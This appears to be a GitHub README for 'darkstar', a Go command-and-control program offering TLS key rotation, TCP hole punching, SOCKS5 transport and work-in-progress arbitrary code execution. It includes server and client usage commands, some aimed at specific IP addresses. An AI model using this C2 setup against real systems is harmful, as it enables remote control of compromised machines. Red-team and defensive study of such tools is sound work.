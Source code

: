 # darkstar

![example](resources/darkstar.png)


![gif](resources/example.gif)

![examplecli](resources/examplecli.png)
Command and control program in golang

- Rotates tls keys per run.
- TCP hole punching
- Arbitrary code execution (WIP)
- TLS or SOCKS5

# Requirements

- A sqlite3 database for the server mode e.g. `touch /usr/local/share/darkstar.db`
- Proxy SOCKS server `ssh -N -D 0.0.0.0:8080 root@localhost`

## Usage

### Direct TLS
`darkstar -mode=server -module=scavange -serverdbpath=/usr/local/share/darkstar.db`
`darkstar -mode=client -serverhostaddress=0.0.0.0`

### SOCKS5
`darkstar -mode server -transportmode SOCKS`
`darkstar -serverhostaddress 159.89.250.136 -serverport 8080 -socksport 8080 -socksproxy 159.89.250.109 -mode client`


| Client        | Direction     | Message Digest | Server        |
| ------------- | ------------- | -------------  | ------------- |
| Message       | ->            | ActorDetails  | Process incoming |
|               | <-            |                  ActorDetails + Instruction |
| Work          |               |               |                 |
| Message       | ->            | ActorDetails + Instruction + Payload  |                |


## Transport Modes

Enable SOCKS proxy on a server you control

`ssh -A -f -N -D  0.0.0.0:1080 root@localhost`

## Modules & development

The module system uses interfaces and it is easy to add your own modules in.

Modify firstly `loader.go` and secondly create your module .g. `unix/timestamp.go`
